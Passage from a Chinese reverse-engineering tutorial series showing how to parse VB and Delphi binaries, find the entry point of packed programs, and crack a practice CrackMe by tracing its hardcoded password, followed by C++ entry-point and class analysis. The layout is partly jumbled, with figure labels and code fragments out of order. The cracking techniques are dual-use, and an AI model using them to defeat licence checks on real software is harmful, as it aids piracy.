- 0x02 TextBox
- 0x03 Frame
- 0x04 Command Button
- 0x05 CheckBox
- 0x06 Option Button
- 0x07 ComboBox
- 0x08 ListBox
- 0x0B Timer
- 0x0D Form

可以解析出属性如下：

```text
对象名称：Form1
Form1.Caption        Crack 2 By monster
Form1.Width          0x10D6
Form1.Height         0x07DA
Form1.Left           0x0078
Form1.Top            0x01C2

对象名称：Text1
Text1.TabIndex       0x0001
Text1.Width          0x0FFF
Text1.Height         0x0177
Text1.Left           0x00F0
Text1.Top            0x01E0

对象名称：Command1
```

| 属性 | 值 |
|---|---|
| Command1.Caption | Check |
| Command1.TabIndex | 0x0000 |
| Command1.Width | 0x08F7 |
| Command1.Height | 0x01EF |
| Command1.Left | 0x0438 |
| Command1.Top | 0x04B0 |

```asm
call dword ptr [edx+00000054]
```

其中的寄存器一般为 eax、ecx 或者 edx，可以通过搜索来确定这些代码的位置。

```asm
00401188  >  $ 68 18134000   push 00401318
0040118D      E8 F0FFFFFF    call <jmp.&MSVBVM60.ThunRTMain>
```

首先向堆栈里压入 00401318，在 OD 的命令行窗口里执行命令“d 00401318”来看看这里的数据：

`00401318 56 42 35 21 1C 23 76 62 36 63 68 73`

`2E 64 6C 6C VB5!#vb6chs.dll`

然后调用一个函数 ThunRTMain。使用 VB 语言编写的程序在运行时，都会首先调用 ThunRTMain 函数，ThunRTMain 函数将会为进程做一些初始化工作。既然每个使用 VB 语言编写的程序在运行时都会首先调用 ThunRTMain 函数，那么当遇到一个被加壳的 VB 程序时，就可以轻松找到程序 OEP 了。

也可以使用工具来分析使用 VB 语言编写的程序的控件属性和事件。VBExplorer 是一款 VB 语言的反编译工具，目前已可以解析 VB 自身所有控件的属性，并进行编辑（包括字体的修改、背景颜色的修改、图片的保存和替换等）和导出（包括工程文件和图片文件），运行界面如图 6。


图6

VB 语言生成的代码也是非常规矩的。一般会有以下对应的代码：

```asm
Form.Show
  call dword ptr [eax+000002B0]

Form.Visible = True
  call dword ptr [eax+000001BC]

Command.Enabled = True
  call dword ptr [eax+0000008C]

Command.Visible = True
  call dword ptr [eax+00000094]

Label1.Visible = True
  call dword ptr [eax+0000009C]

Text.Text = "Monster"
  call dword ptr [eax+000000A4]

Form.Caption = "Monster"
```

用 OD 加载加壳后的程序，在 OD 的命令行窗口里执行命令“bp ThunRTMain”对 ThunRTMain 函数设断点，接下来按 F9 运行程序，然后就会被中断在 ThunRTMain 函数里，如图 7，查看堆栈里的数据：

`0012FF84    00401192    返回到 CrackMe_.00401192 来自 <jmp.&MSVBVM60.#100>`

`0012FF88    00401318    CrackMe_.00401318`


图7

当前 ESP 寄存器所指的值就是 call 指令压入的 ThunRTMain 函数的返回地址，也就是 call ThunRTMain 指令的下一句代码，那么就能得出一个计算公式：

**程序 OEP = 当前返回地址 - 0x10**

这样就可以计算出当前程序的 OEP 为 00401192 - 0x10，计算结果为 00401188。

# 主题乐园

## 破解爱瑟密码（十五）

对于 Delphi 程序的破解

rejector

Delphi 是 Windows 平台下著名的快速应用程序开发工具。它的前身即是 DOS 时代盛行一时的“Borland Turbo Pascal”，最早的版本由美国 Borland 公司于 1995 年开发；主创者为 Anders Hejlsberg。经过数年的发展，此产品也转移至 Embarcadero 公司旗下。Delphi 是一个集成开发环境（IDE），使用的核心是由传统 Pascal 语言发展而来的 Object Pascal，以图形用户界面为开发环境，透过 IDE、VCL 工具与编译器，配合连接数据库的功能，构成一个以面向对象程序设计为中心的应用程序开发工具。

Delphi 使用了 VCL 技术。VCL 是 Visual Component Library 的缩写，就是常说的可视组件库，它是 Delphi、C++ Builder 等编程语言的基本类库。它拥有封装缜密、可扩展性强、操作方便等特点。即使是一个非常繁杂的 Win32 API，在经过 VCL 封装后，它的使用也是非常简便的。VCL 支持类的嵌套、过程及函数的嵌套，如果你想在一个过程里声明一个类，或是声明另一个过程，那是完全可行的。过程内部的过程或是函数，被称为局部过程或是局部函数。VCL 对事件的支持及封装也是非常完整的，通过事件对象的声明，可以将任意的外部事件源绑定到 VCL 控件。在 Delphi 的 VCL 中，还提供了非常多的伪 API 函数，它们可以对软件开发提供进一步的支持。VCL 的可扩展性使得编写控件变得非常简单，并且可以任意导入导出 ActiveX 控件。同时，它也是平台无关的，可以在 Windows、Linux、MacOS 或是其他操作系统下直接使用。

VCL 技术使用了 RCDATA 资源格式。RCDATA 定义为一个应用程序的原始数据资源，原始数据资源允许直接在可执行文件中包含二进制数据。在进行 Delphi 程序设计时，通过编码把程序所要使用到的资源信息储存在后缀为 DFM 的二进制文件中，然后通过编译把 DFM 文件里的信息以 RCDATA 资源的形式储存在可执行文件中，这里包括程序所要用到的所有与窗口相关的信息。当一个使用 Delphi 编写的程序开始运行的时候，程序首先读取 RCDATA 资源中的这些关于窗体的数据，然后通过这些数据来建立窗体。这样就可以通过查看程序的数据来确定并修改程序的运行方式了。

在 Delphi 中，每一个代码块都具有一个 BEGIN 和一个 END 语句。一般来说 BEGIN 只表示一个语法结构的开始，而 END 也只表示一个语法结构的结束，但是也有时候 BEGIN 和 END 代表代码的初始化过程和结束化过程，而这些工作都是由编译器自动完成的。

在 Delphi 中，有些数据类型的变量是需要初始化与结束化过程的。一般来说，对于类的初始化和结束化操作分别调用 TObject.InitInstance() 和 TObject.FreeInstance()；对于静态数组的初始化和结束化操作分别调用 _InitializeArray() 和 _FinalizeArray()；对于动态数组、变体、长字符串等变量的初始化和结束化操作则内置于 _InitializeArray() 和 _FinalizeArray() 中。

初始化的目的就是为了给变量赋初值 Nil。这些变量如果没有经过初始化就直接使用的话，可能会导致一些不可预期的问题。在 Delphi 中，对于动态数组、变体、长字符串等变量的初始化和结束化操作会直接在栈中完成。记录和数组的初始化如同它们的增加引用一样，也是操作一些子域，所使用的初始化表与增加引用中使用的引用列表也是同一个表。

与初始化操作相比来说，结束化操作要简单很多。对于位于堆栈里的局部变量，只要清理恰当栈项来释放局部变量所占的空间，即可完成对变量的结束化。记录和数组中的元素可以通过初始化表来结束化。对于不在初始化表中的域或数组元素，在释放记录和数组占有的栈空间的同时就已经被释放了。如果变量具有引用计数的特征，那么在结束化过程中都必须调用到相应的数据类型中用来减少引用计数的例程。

如果是全局变量，那么记录变量的空间会被分配到数据区，这时操作系统的文件装载程序会自动将 BSS 节初始化为 0，因此无初值的记录变量的初始化工作可以自动完成；而有初值的记录变量不存在初始化问题，并且它被存放在 DATA 节中，所以也不会被自动初始化。

对于例程来说，没有专门用来初始化和结束化一个例程的过程。在例程初始化时会生成对传值参数的备份，并替换原来参数的传入地址，在栈上为局部变量分配空间，并初始化具有计数特征的变量，为数组和记录调用初始化过程，初始化其中具有计数特征的域或元素，在这之间不会对堆进行操作。

而例程的结束化操作会清除对传值参数的备份，按照调用约定传出返回结果，清除局部变量在栈上分配的空间，并为具有引用计数特征的变量调用减少引用计数的内部例程。这时如果引用计数减至 0，则释放变量在堆栈上的内存占用，最后为数组和记录调用结束化过程，初始化其中的引用计数特征的域或元素，得到与局部变量相关的结束化操作。

Delphi 会自动调用一个内部例程来初始化每一个单元，而单元的结束化则是单元初始化，它们对应的例程分别是 InitUnits() 和 FinalizeUnits()。编译器会采用深度优先遍历算法扫描项目的所有单元，然后生成一个初始化表。编译器保证每个单元在初始化表中不会有重复，从而使得每一个单元只会被初始化一次。从执行流程的角度上来讲，等到例程 InitUnits() 被执行时，初始化表已经在内存中准备好了，而这些是编译器和操作系统的模块初始化程序所做的工作。程序的入口点也就在初始化表之后，在脱壳时可以利用这一点来确定程序的 OEP。

在 Delphi 程序运行时首先会对模块进行初始化。Delphi 程序的初始化函数和结束化函数都是成对出现的，可以把程序的初始化表理解为这样的结构：

```c
struct tagInitTable
{
    DWORD dwNum;
    PFUNTABLE pFunTable;
};
```

这里 dwNum 表示初始化函数和结束化函数的对数，pFunTable 表示初始化函数和结束化函数的地址表，可以理解为这样的结构：

```c
typedef struct tagFunTable
{
    void (*Initialization1)(void);
    void (*Finalization1)(void);
    void (*Initialization2)(void);
    void (*Finalization2)(void);
    ...
};
```

来看看使用 Delphi 编写的模块的入口点代码：

```asm
00453B68    push ebp
00453B69    mov  ebp, esp
00453B6B    add  esp, 0FFFFFFF0h
00453B6E    mov  eax, offset dword_453988
00453B73    call @SysInit@InitExe$qqrpv
```

注意 00453B6E，这里用来传入初始化表的地址，然后下一句调用模块初始化的例程，从 .rsrc 区段中读取出资源里的 DFM，然后从 InitRoutineTable 读取所有的 FunTable，挨个执行对应的初始化例程。

刚才说过 Delphi 采用的是 VCL 技术，而 Delphi 的 VCL 技术又使用了 RCDATA 资源，RCDATA 资源中包含了所有有关窗体的设计信息。这样就可以通过分析使用 Delphi 编写的 PE 文件来确定一些窗体的信息，这个过程通常叫做 Delphi 的反编译。

Delphi 程序的源代码一般来说会分为两种文件：Pascal 源代码（.PAS、.DPR、.INC）、资源文件（.RES、.RC、.DFM、.DCR）。对应地，编译后的也分别储存在两个段里。使用 Delphi 编译出来的 PE 文件，一般的段可能会有 CODE、DATA、BSS、.idata、.tls、.rdata、.rsrc 这么几个区段。.rsrc 段比较重要，这里除了一般的资源以外，还有工程信息和 DFM 资源信息。这一节开始部分是常规的资源表，接着是工程信息，最后就是 DFM 资源了。DFM 资源包括了所有控件的描述、控件 published 属性的初始设置。不同 Form 的资源在不同的一段里，每个都是以 #54,#50,#46,#30（TPF0）开始，紧跟其后的就是 Form 的名字，以 Pascal 字符串形式存放。Pascal 字符串和前面所讲过的 VB 的 BSTR 很像，用第一个字节来表示字符串的长度。每一个 DFM 小节都是在链接的时候由编译器直接从原始的 dfm 文件中复制过来的。注意 DFM 资源是以 RCDATA 类型的资源储存的，Windows 程序的资源默认都是储存在 .rsrc 节的资源表中，图标之类储存在其他名称的段里就会发现不对劲了，所以可以用资源编辑软件来编辑，效果就像 Borland 自己的资源编辑环境一样。虽然使用的是 RCDATA 资源的格式，但是看起来就是一串 text 字符串。

使用 Delphi 编写的程序入口如下：

```asm
00453B68    push ebp
00453B69    mov  ebp, esp
00453B6B    add  esp, 0FFFFFFF0h
00453B6E    mov  eax, offset dword_453988
00453B73    call @SysInit@InitExe$qqrpv
00453B78    mov  eax, ds:off_455058
00453B7D    mov  eax, [eax]
00453B7F    call sub_45210C
...
00453B90    call @Forms@TApplication@SetTitle$qqrx17System@AnsiString
...
00453BA8    call @Forms@TApplication@CreateForm$qqrp17System@TMetaClasspv
00453BAD    mov  eax, ds:off_455058
00453BB2    mov  eax, [eax]
00453BB4    call @Forms@TApplication@Run$qorv
00453BB9    call @System@@Halt0$qorv
```

InitExe 例程会从 .rsrc 区段中读取出资源里的 dfm，接着调用 StartExe 例程从初始化例程表中读取所有初始化例程的地址，然后挨个执行对应的初始化例程。运行到 00453BA8 处时调用 CreateForm 例程，创建主窗体。然后调用 Run 例程进入程序的消息循环，最后调用 Halt0 例程来退出程序。

只要在 Delphi 中用对象查看器看到的所有东西，都可以通过对 Delphi 程序的反编译得到。这样就可以仅仅通过编辑 DFM 资源数据，来改变控件的任何 published 属性。

运行 CrackMe，如图 1，输入字符串“abcdefg”后按“Check”按钮，结果如图 2，程序提示“Sorry! Your string is incorrect!”。


图1


图2

用 OD 加载程序，然后对 MessageBoxW（A）设置断点，可是在弹出对话框的时候程序并没有被中断。对 GetDlgItemTextW（A）和 GetWindowTextW（A）设置断点，程序也没有被中断。这是因为 Delphi 程序在获取编辑框的内容时没有调用任何像 GetDlgItemTextW（A）、GetWindowTextW（A）之类的函数，而是直接向对应编辑框发送 WM_GETTEXT 消息。既然是对编辑框发送 WM_GETTEXT 消息，那么这里对编辑框设置一个 WM_GETTEXT 消息断点，结果却依然没有反应。这是因为 Delphi 在向程序编辑框发送 WM_GETTEXT 消息时并没有使用 SendMessageW（A）、PostMessageW（A）之类的消息函数，而是直接调用 WndProc 函数。

这里来简单说说关于 VCL 技术的消息处理机制。程序首先通过 Application.Run 进入消息循环进行消息处理，其中调用了 HandleMessage。这里首先调用 ProcessMessage 函数来处理，当返回值为 False 时调用 Idle，即消息队列中无消息等待处理时调用 Idle；如果消息队列中有消息时则调用 TranslateMessage 函数将消息传递给 Windows 进行转换。在 Windows 消息中，要传递的消息是发送给窗口句柄的，而在 VCL 中却是要发送给窗口的 self 指针。窗口的消息处理回调函数在第一次被调用时，通过调用 SetWindowLong 函数将消息回调函数替换成 TWindowControl.FObjectInstance，而 TWinControl.FObjectInstance 就是一个普通的 Pointer，其赋值是在 TWinControl.Create 中通过 MakeObjectInstance 函数替换为 TWinControl.MainWndProc 过程。MakeObjectInstance 函数在这里实现了两功能：第一，传递了一个隐含指针 Self，也就是对象的地址；第二，把 TMSG 消息结构转变为 TMessage 消息结构。事实上 TWinControl.MainWndProc 是调用 WindowsProc 来实际处理窗口消息的。

消息处理到这里也就结束了，但是为了让 TControl 也模拟成窗口，所以在 TControl.DefaultHandler 中只处理了 WM_GETTEXT、WM_GETTEXTLENGTH、WM_SETTEXT 这三个消息。其实 WindowsProc 只是 TControl 类的一属性，用来读写 FWindowProc。而 FWindowProc 在 TControl.Create 就被定义好了。WndProc 最早被定义在 TControl 类中，是个虚方法。从 TControl 到实际的 VCL 窗体类这条继承链上，很多派生类都重载了 WndProc，从而每个重载该方法的派生类都会增加一些功能。当然在继承链的末端，也可以重载 WndProc，来完成一些功能。消息经过 WndProc 过程的传递，最后又交给了 TObject.Dispatch，TObject.Dispatch 是个虚方法。TObject.Dispatch 会在各个类中搜索动态方法表，如果没有找到相应的动态方法，或是即使找到动态方法但该动态方法没有对该消息进行处理，都会交给 TObject.DefaultHandler 过程。

用 LoadPE 的 PE 编辑器查看它的区段信息，如图 3，可以看到 .rsrc 段对应的偏移为 0x0005C600。用 WinHex 打开程序，定位到偏移 0x0005C600 处，向下翻查看 0x0005C600 以后的数据，然后就可以看到关于窗体的设计信息：

```text
Offset  0 1 2 3 4 5 6 7 8 9 A B C D E F
00061750  06 54 46 6F 72 6D 31 05 46 6F 72 6D 31 ... TForm1.Form1...
00061760  66 74 03 28 02 03 54 6F 70 03 73 01 05 57 69 64 ...
00061770  74 68 03 46 01 06 48 65 69 67 68 74 03 94 00 07 ...Height...
00061780  43 61 70 74 69 6F 6E 06 1D 43 72 61 63 6B 4D 65 ...Caption:CrackMe
```

## 5.2.1 CrackMe 5.2.1 By Monster

```text
00061790 20 20 20 20 35 2E 32 2E 31 20 ...
000617A0 6F 6E 73 74 65 72 ...
000617B0 42 74 6E 46 61 63 65 ...
000617C0 72 73 65 74 ...
000617D0 43 48 41 52 53 45 54 ...
...
00061BB0 05 54 45 64 69 74 ...
00061BC0 74 02 20 03 54 6F 70 ...
00061BD0 F1 00 06 48 65 69 67 68 74 ...
00061BE0 72 64 65 72 02 01 00 ...
```

```pascal
Width = 326
Height = 148
Caption = 'CrackMe   5.2.1 By Monster'
Color = clBtnFace
Font.Charset = DEFAULT_CHARSET
Font.Color = clWindowText
Font.Height = -11
Font.Name = 'MS Sans Serif'
Font.Style = []
OldCreateOrder = False
PixelsPerInch = 96
TextHeight = 13
object Button1: TButton
  Left = 112
  Top = 64
  Width = 81
  Height = 25
  Caption = 'Check'
  TabOrder = 0
  OnClick = Button1Click
end
object Edit1: TEdit
  Left = 32
  Top = 24
  Width = 241
  Height = 21
  TabOrder = 1
end
end
```

在 CODE 段的最后储存着 DPR 的代码，利用其中的 Handler 字符串名称，可以很容易查找到与控件对应的事件响应函数的地址。dpr 中对于事件 handler 的储存格式是一个地址，紧跟着 handler 的名称，其结构如下：

```c
struct EventHandler
{
    LPVOID Handler;
    struct String
    {
        BYTE LenStr_B;
        char Str_cAry[];
    };
};
```

从这里可以分析出以下信息：

```pascal
object Form1: TForm1
  Left = 552
  Top = 371
```

# 主题乐园

在 Delphi 里，form 中在运行时对用户代码的调用，都是通过字符串名称来进行的，这样我们也可以通过任意一个用户事件 Handler，向上跟踪找到这个包含字符串的结构，来跟踪需要的目标。知道了 DPR 的代码处于 CODE 段的末尾，那回头看看图3，CODE 段的下一个区段 DATA 段从偏移 0x00053000 开始，那么 DPR 的代码就在这附近。用 WinHex 打开程序，定位到偏移 0x00053000，向上翻，查看 0x00053000 以前数据，然后就可以看到有一个字符串为“Button1Click”。

图5

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00052C10    54 38 45 00 0C 42 75 74 74 6F 6E 31 43 6C 69 63
...Button1Clic
00052C20    6B
```

重新把 CrackMe2 载入 OD 中，向地址 0x00453854 处设置一个断点，如图6，然后按 F9 运行。输入“abcdefg”后按“Check”命令按钮，就会被中断在刚才设置断点的地方。

图3

根据上述 EventHandler 的结构可以知道，“Button1Click”就是 Handler 的字符串名称，在它前面一个字节表示这个名称的长度，这里是 0x0C，再向前四个字节代表它与控件对应的事件响应函数的地址，这里是 0x00453854。

这一过程也可以利用工具来完成。DeDe 是一款针对 Delphi 程序的反编译工具，它可以对使用 Delphi 编写的程序进行反编译，获取相关信息。它可以查看使用 Delphi 编写的程序的窗体属性，分析出与控件相对应的事件地址，并把事件代码反汇编出来，运行界面如图4、图5。DeDe 还是一款开源软件，有兴趣的同学可以深入研究一下。

图4

```asm
00453854  push ebp
00453855  mov  ebp, esp
00453857  push 0
00453859  push ebx
0045385A  mov  ebx, eax
0045385C  xor  eax, eax
0045385E  push ebp
0045385F  push 004538B3
00453864  push dword ptr fs:[eax]
00453867  mov  dword ptr fs:[eax], esp
0045386A  lea  edx, dword ptr [ebp-4]
0045386D  mov  eax, dword ptr [ebx+2FC]
00453873  call 00432A4C      ; 获取编辑框里的字符串
00453878  mov  eax, dword ptr [ebp-4]
0045387B  mov  edx, 00453BC8 ; "monster"
00453880  call 00404258      ; 比较两个字符串
00453885  jnz  short 00453893 ; 如果不相同则执行跳转
00453887  mov  eax, 00453BD8 ; "Congratulations!Your string is right!"
0045388C  call 0042736C      ; 弹出提示框
00453891  jmp  short 0045389D
00453893  mov  eax, 00453908 ; "Sorry!Your String is incorrect!"
00453898  call 0042736C      ; 弹出提示框
0045389D  xor  eax, eax
```

图7

这里就是“Check”命令按钮的点击事件代码。这里首先获取编辑框中的字符串，然后把它和字符串“monster”进行比较，如果相同则弹出提示框提示“Congratulations!Your string is right!”，如果不相同则弹出提示框提示“Sorry!Your String is incorrect!”。理解了这段代码以后，逻辑就很明了了，程序所需要的字符串就是“monster”。输入“monster”以后按命令按钮“Check”，结果如图7。

图6

# 侦锋零起步（十六）

## 对于 C++ 程序的破解

C++ 这个词在中国大陆的程序员圈子中通常被读作“C加加”，而西方的程序员通常读作“C plus plus”“CPP”。它是一种使用非常广泛的计算机编程语言。C++ 是一种静态数据类型检查的、支持多重编程范式的通用程序设计语言。它支持过程化程序设计、数据抽象、面向对象程序设计、泛型程序设计等多种程序设计风格。

C 语言之所以要起名为“C”，是取的“BCPL”的第二个字母（第一个字母用来命名之前被发明的 B 语言）。当 C 语言发展到顶峰的时刻，出现了一个版本叫 C with Class，那就是 C++ 最早的版本，在 C 语言中增加 class 关键字和类。那个时候有很多版本的 C 都希望在 C 语言中增加类的概念；后来 C 标准委员会决定为这个版本的 C 起个新的名字，那个时候征集了很多种名字，最后采纳了其中一个人的意见，以 C 语言中的 ++ 运算符来体现它是 C 语言的进步，故而叫 C++。

随着 C++ 的发展越来越火，现在有越来越多的程序员在使用 C++ 来做开发了。很多恶意软件是使用 C++ 开发的，很多应用软件也是使用 C++ 开发的，如果直接把使用 C++ 编写的程序放到 IDA 中去分析，由于 C++ 的一些特性，分析难度相对会比较大，例如 C++ 中使用了虚函数调用，而虚函数使用的是间接调用的方式，所以比较难捉摸，因此要掌握针对 C++ 的逆向分析技术是至关重要的。

这一课比较重点地来讲解对于 C++ 编写程序的逆向分析技术，遇到的代码都使用 Visual Studio 2008 的 Release 模式编译。首先我们来看看用 VC 编译的 C++ 程序的入口点。

分析一个程序的第一步就是要确定程序的入口点，对于 C++ 编写的程序也一样，只有确定程序的入口点，才能顺藤摸瓜，一步步分析出整个程序的用途。

先来看看控制台程序，这里是一段经典的代码：

```c
#include <stdio.h>
int _tmain(int argc, TCHAR* argv[])
{
    printf("Hello World!\n");
    return 0;
}
```

这段代码很出名，只要是学过一点程序设计的人都对它很了解，这就是大名鼎鼎的“Hello World”程序。_tmain() 函数是控制台程序的入口点。众所周知，main() 函数是所有 C 或 C++ 程序执行的起点，而 _tmain() 函数是为了支持 Unicode 所使用的 main() 函数别名，_tmain() 函数在编译后仍然是 main() 函数。看看 MSDN 里对 main() 函数的解释。

# 主题乐园

MSDN 里给出的 main 函数原型是这样的：

```cpp
int main(int argc, char* argv[], char* envp[]);
```

MSDN 里规定了 main 函数必须返回一个 int 型的值，而且它有三个参数。第一个参数 argc 表示程序的命令行参数个数；第二个参数 argv 是一个 char 型二维数组，这里可以把它理解成一个字符串数组，指向程序的每一个命令行参数；第三个参数是 envp，很少用到它，很多同学都对它很陌生，它也是一个 char 型二维数组，这里也可以把它理解成一个字符串数组，它用来取得系统的环境变量，如 %windows%、%system% 等。

使用 Visual Studio 2008 的 Release 模式编译，然后使用 OD 加载程序，OD 会停在这里：

```asm
00CA12B7 call 00CA1638
00CA12BC jmp  00CA1060
```

这里的代码基本是固定的，使用 Visual Studio 2008 的 Release 模式编译程序的入口点基本都是这样的，但是这里却不是 main() 函数，这里是程序初始化代码，等完成这些代码以后程序就会调用 main() 函数去执行用户自己定义的代码。00CA12B7 处这个 call 主要用来获取一些进程信息，按 F7 跟进这个 Call：

```asm
0110166E push eax
0110166F call dword ptr [<&KERNEL32.GetSystemTimeAsFileTime>]
01101675 mov  esi, dword ptr [ebp-4]
01101678 xor  esi, dword ptr [ebp-8]
0110167B call dword ptr [<&KERNEL32.GetCurrentProcessId>]
...
01101697 call dword ptr [<&KERNEL32.QueryPerformanceCounter>]
```

这里程序调用了几个 API 函数来获取和进程相关的一些信息，这些信息包括当前系统时间、当前进程 ID、当前线程 ID、从操作系统启动到当前所经过的时间、定时器计数值。一直按 F8 跟过去，等函数返回后就到了 00CA12BC 处的 jmp 指令，按 F8 让它跳过去：

```asm
012C1060 push 10
012C1062 push 012C21B8
012C1067 call 012C158C
012C106C xor  ebx, ebx
...
0110109B push 3E8
011010A0 call dword ptr [<&KERNEL32.Sleep>]
...
01101124 call dword ptr [<&KERNEL32.InterlockedExchange>]
```

```asm
01101130 je      short 0110114B
01101132 push    01103380
01101137 call    011014C0
...
0110113F je      short 0110114B
...
01101145 call    dword ptr [1103380]
01101148 mov     eax, dword ptr [110301C]
01101150 mov     ecx, dword ptr [&MSVCR90.__winitenv]
01101156 mov     dword ptr [ecx], eax
01101158 push    dword ptr [110301C]
0110115E push    dword ptr [1103020]
01101164 push    dword ptr [1103018]
0110116A call    01101000
0110116F add     esp, 0C
01101172 mov     dword ptr [1103030], eax
01101177 cmp     dword ptr [1103024], ebx
0110117D jnz     short 01101186
0110117F push    eax
01101180 call    dword ptr [&MSVCR90.exit]
...
01101192 call    <jmp.&MSVCR90._XcptFilter>
01101197 pop     ecx
01101198 pop     ecx
01101199 retn
```

```c
MessageBox(NULL, L"Hello World!", "Message", MB_OK);
return 0;
}
```

这也是一个“Hello World”程序，但与刚才的控制台应用程序不同的是，它是 Win32 应用程序。与前面的控制台应用程序相同，_tWinMain() 函数是 Unicode 版本的 WinMain() 函数，它在编译以后仍然是 WinMain() 函数，而 WinMain() 函数是 Win32 应用程序的入口点。看看 MSDN 中给出的 WinMain 函数原型：

```c
int WINAPI WinMain(
    HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    int nCmdShow
);
```

这里规定了 WinMain 函数必须返回一个 int 型的值，它有四个参数。第一个参数 hInstance 表示当前应用程序的实例句柄；第二个参数 hPrevInstance 表示先前应用程序的实例句柄；第三个参数 lpCmdLine 表示应用程序的整个命令行参数；第四个参数 nCmdShow 指明了程序窗体的显示方式。

编译这段代码后用 OD 加载，然后程序停在这里：

```asm
01311332 >call  013117B8
01311337  jmp   01311073
```

这里和控制台程序是一样的，按 F8 步过这个 call，然后再 F8 一步执行跳转，跳转以后的代码也和上面的很像，注意这里：

```asm
013111A7 test   byte ptr [ebp-40], 1
013111AB je     short 013111B3
013111AD movzx  ecx, word ptr [ebp-3C]
013111B1 jmp    short 013111B6
013111B3 push   0A
013111B5 pop    ecx
013111B6 push   ecx
013111B7 push   eax
013111B8 push   ebx
013111B9 push   01310000
013111BE call   01311000
```

注意 01101158 处，程序使用了三条 push 指令，然后调用 0110116A 处的函数，这里就是在调用 main() 函数了，而前面的三个 push 指令都是向 main 函数传递参数，这样就找到了控制台程序的入口点。

再来看看 Win32 应用程序的入口点，有这样一段程序：

```c
int APIENTRY _tWinMain(HINSTANCE hInstance,
                       HINSTANCE hPrevInstance,
                       LPTSTR    lpCmdLine,
                       int       nCmdShow)
{
}
```

# 主题乐园

```asm
013111C3  mov   dword ptr [1313030], eax
013111C8  cmp   dword ptr [1313024], ebx
013111CE  jnz   short 0131721C
013111D0  push  eax
013111D1  call  dword ptr [<&MSVCR90.exit>]
```

```c
#ifdef _M_IX86
if (!_NoHeapEnableTerminationOnCorruption)
{
    HeapSetInformation(NULL, HeapEnableTerminationOnCorruption, NULL, 0);
}
#endif
```

仔细看这里的代码，第一条 test 指令用来判断程序窗体的显示方式，如果程序没有给出则给它设置 0x0A，然后到 013111B6 处，这里是四个 push 语句，然后调用一个函数，这个函数就是 WinMain() 函数了，而刚才的四个 push 语句就是向堆栈里压入 WinMain() 函数的四个参数，最后在 013111D1 处调用 exit() 函数来退出进程。

其实不管是控制台程序还是 Win32 应用程序，它们的入口代码都是比较类似的。当用户启动程序的时候，会进入 C/C++ 运行时库代码（CRTStartup），由它初始化静态变量及全局变量，然后再转入 WinMain 或 main 函数。这里我们以控制台程序为例来做个简单的研究。程序会首先进入 _tmainCRTStartup 函数：

```c
int
_tmainCRTStartup(
    void
)
{
    __security_init_cookie();
    return __tmainCRTStartup();
}
```

在 _tmainCRTStartup 函数中调用 __security_init_cookie 函数来处理 GS 选项中的安全 cookie，然后再调用 __tmainCRTStartup 函数（注意，这里和前面不同的是有两个下划线）：

```c
__declspec(noinline)
int
__tmainCRTStartup(
    void
)
{
    int initret;
    int mainret = 0;
    int managedapp;

    managedapp = check_managed_app();
    if (!_heap_init())
        fast_error_exit(_RT_HEAPINIT);
    if (!_mtinit())
        fast_error_exit(_RT_THREAD);
    _CrtSetCheckCount(TRUE);

#ifdef _RTC
    _RTC_Initialize();
#endif

    __try {
        if (_ioinit() < 0)
            _amsg_exit(_RT_LOWIOINIT);
        _tcmdln = (_TSCHAR *)GetCommandLineT();
        _tenvptr = (_TSCHAR *)GetEnvironmentStringsT();
        if (_tsetargv() < 0)
            _amsg_exit(_RT_SPACEARG);
        if (_tsetenvp() < 0)
            _amsg_exit(_RT_SPACEENV);
        initret = _cinit(TRUE);
        if (initret != 0)
            _amsg_exit(initret);
        _tinitenv = _tenviron;
        mainret = _tmain(__argc, _targv, _tenviron);
        if (!managedapp)
            exit(mainret);
        _cexit();
    }
    __except ( _XcptFilter(GetExceptionCode(), GetExceptionInformation()) ) {
    }
}
```

```cpp
...formation())
{
    mainret = GetExceptionCode();
    if (!managedapp)
        exit(mainret);
    _cexit();
}
return mainret;
```

这里的代码阐述了整个 VC 程序的入口代码，包括设置进程堆、初始化 CRT 数据、初始化静态变量、调用主函数 main 等。

以上是分析入口的方法。对于一个逆向分析人员来说，懂得对于 C++ 的逆向分析是相当重要的。C++ 是一门面向对象的编程语言，说到面向对象，很多人都会想到类，因此掌握类的分析方法也是至关重要的。我们要从二进制代码中识别出程序里所使用到的各种类，以及它们的每个成员变量和成员函数，并研究类与类之间的继承与派生关系。

这里来看一个简单的例子：

```cpp
#include <iostream>
using namespace std;

class cls
{
private:
    int a;
    int b;
public:
    cls(int x);
    void fn(int x);
};

int _tmain(int argc, _TCHAR* argv[])
{
    cls t(1);
    t.fn(2);
    return 0;
}

cls::cls(int x)
{
    this->a = x;
}
```

```cpp
void cls::fn(int x)
{
    this->b = x;
}
```

这是一段很简单的 C++ 代码，定义了一个 cls 类，有两个 int 型的私有成员，分别是 a 和 b；有一个公有的成员函数 cls::fn()。cls::fn() 有一个 int 型的参数，当成员函数 cls::fn() 被调用时，把函数的参数赋值给成员变量 b。cls 类还有一个构造函数，也有一个 int 型的参数，它的作用也是把函数的参数赋值给成员变量 a。在主函数里定义了一个对象 t，给构造函数传入参数 1，然后再调用成员函数 cls::fn()，给成员函数 cls::fn() 传入参数 2。编译这段代码，然后放到 IDA 里，它的反汇编代码：

```asm
.text:00401000 push ebp
.text:00401001 mov ebp, esp
.text:00401003 sub esp, 8
.text:00401006 push 1
.text:00401008 lea ecx, [ebp-8] ; this
.text:0040100B call ??0cls@@QAE@H@Z ; cls::cls(int)
.text:00401010 push 2
.text:00401012 lea ecx, [ebp-8] ; this
.text:00401015 call ?fn@cls@@QAEXH@Z ; cls::fn(int)
.text:0040101A xor eax, eax
.text:0040101C mov esp, ebp
.text:0040101E pop ebp
.text:0040101F retn
```

cls 类有两个 int 型的成员变量，因此一个对象所占用的内存空间是八个字节。可以看到，这里第三句把栈顶向下压了八个字节，为定义的对象 t 开辟存储空间，然后向堆栈里压入 1，这里的 1 是构造函数 cls::cls(int) 的参数 x。然后下一句 lea 指令向 ecx 传一个指针，指针的地址为 ebp-8，就是刚才定义的对象 t 的指针。注意 IDA 给出的注释，这个指针是对象的 this 指针。再下一句 call 指令调用构造函数 cls::cls(int)，然后再向堆栈里压入 2，这里的 2 是成员函数 cls::fn(int) 的参数 x。再下一句又是一句 lea 指令，这里也是向 ecx 传入对象的 this 指针，然后调用成员函数 cls::fn(int)。

再看看成员函数 cls::fn(int) 的反汇编代码：

```asm
.text:00401040  push  ebp
.text:00401041  mov   ebp, esp
.text:00401043  push  ecx
